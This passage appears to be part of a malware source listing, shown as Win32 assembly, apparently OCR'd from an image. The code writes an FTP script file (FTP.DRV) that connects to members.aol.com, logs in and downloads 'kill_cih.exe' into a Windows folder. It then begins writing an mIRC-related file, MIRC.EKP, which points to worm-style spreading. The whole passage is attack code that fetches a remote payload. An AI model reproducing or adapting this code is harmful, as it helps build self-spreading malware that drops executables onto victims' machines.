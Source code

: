 ```assembly
push 00000000h
push 00000080h
push 00000002h
push 00000000h
push 00000001h
push 40000000h
push offset drv
call CreateFileA

mov  [fh],eax
push 00h
push offset octets
push drvsize
push offset drvd
push [fh]
call WriteFile

push [fh]
call CloseHandle
```

**Content of FTP.DRV:**

```assembly
drvd    db "open",0dh,0ah
        db "members.aol.com",0dh,0ah
        db "pentasm99",0dh,0ah
        db "cd Panda",0dh,0ah
        db "binary",0dh,0ah
        db "lcd C:\Win",0dh,0ah
        db "get kill_cih.exe",0dh,0ah
        db "bye",0dh,0ah
        db "exit",0dh,0ah
```

----------

### **Creating MIRC.EKP**

```assembly
push 00000000h
push 00000080h
push 00000002h
push 00000000h
push 00000001h
push 40000000h
push offset ini
call CreateFileA

mov  [fh],eax
push 00h
push offset octets
push inisize
push offset inid
push [fh]
call WriteFile

push [fh]
call CloseHandle
```
